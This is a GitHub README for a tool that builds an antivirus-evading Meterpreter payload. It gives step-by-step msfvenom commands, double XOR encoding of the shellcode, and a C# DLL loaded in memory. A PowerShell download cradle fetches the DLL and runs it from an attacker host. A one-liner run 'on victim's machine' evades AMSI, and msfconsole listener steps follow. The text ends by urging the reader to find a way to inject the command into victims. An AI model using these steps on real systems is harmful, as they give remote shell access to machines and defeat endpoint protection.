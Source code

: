 # RS_meterpreter_bypass
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.

# How to use
Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version


We have now a double XOR-encoded shellcode, to bypass AV we will create a .dll to run in memory. We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.
Now we have the .dll, we can host the file in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

> service apache start

Now we just need to execute the .dll, so we do a .ps1 script to do that:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function.

## Victim's machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:
> msfconsole

> use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp

> set LHOST 192.168.1.102

> set LPORT 4444

> exploit

Now we just wait for the victim to issue the command:
        
        *(New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX*

Your job to find a way for injecting this command :)

# Credits
- purpl3f0x

